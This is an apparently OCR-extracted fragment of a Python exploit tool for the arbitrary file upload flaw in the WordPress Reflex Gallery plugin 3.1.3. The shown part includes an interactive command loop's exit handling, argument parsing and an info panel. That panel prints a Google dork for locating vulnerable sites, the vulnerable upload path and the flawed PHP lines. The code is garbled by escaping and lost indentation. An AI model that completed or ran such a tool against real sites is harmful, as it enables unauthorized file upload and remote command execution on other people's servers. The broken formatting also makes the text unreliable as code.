 if command\_to\_exec == "exit" or command\_to\_exec == "quit":

print\(c\.BLUE \+ "\\n\[" \+ c\.YELLOW \+ "\*" \+ c\.BLUE \+ "\] Clossing connection, bye\!" \+ c\.END\)
sys\.exit\(0\)        

# Main function
def main\(\):

# Parse arguments
args = parser\(\)

try:
if not sys\.argv\[1\]:
print\("URL not provided, \[\-h/\-\-help\] to show help panel"\)
sys\.exit\(0\)
except:
print\("URL not provided, \[\-h/\-\-help\] to show help panel"\)
sys\.exit\(0\)

if args\.info:
exp\_info = """\\n# Exploit Title: Wordpress Plugin Reflex Gallery \- Arbitrary File Upload
# Google Dork: inurl:wp\-content/plugins/reflex\-gallery/
# Date: 08\.03\.2015
# Discovered by: CrashBandicot @DosPerl
# Vendor Homepage: [https://wordpress.org/plugins/reflex-gallery/](#https://wordpress.org/plugins/reflex-gallery/)

# Software Link: [https://downloads.wordpress.org/plugin/reflex-gallery.zip](#https://downloads.wordpress.org/plugin/reflex-gallery.zip)

# Version: 3\.1\.3 \(Last\)
# Tested on: Windows"""
print\(exp\_info\)

print\("\\nPath where the vuln occurs: /wp\-content/plugins/reflex\-gallery/admin/scripts/FileUploader/php\.php"\)

print\("\\nVulnerable code:"\)
print\("50\.      if\(\!move\_uploaded\_file\($\_FILES\['qqfile'\]\['tmp\_name'\], $path\)\)\{"\)
print\("173\.         $result = $uploader\-\>handleUpload\('\.\./\.\./\.\./\.\./\.\./uploads/'\.$\_GET\['Year'\]\.'/'\.$\_GET\['Month'\]\.'/'\);"\)
sys\.exit\(0\)

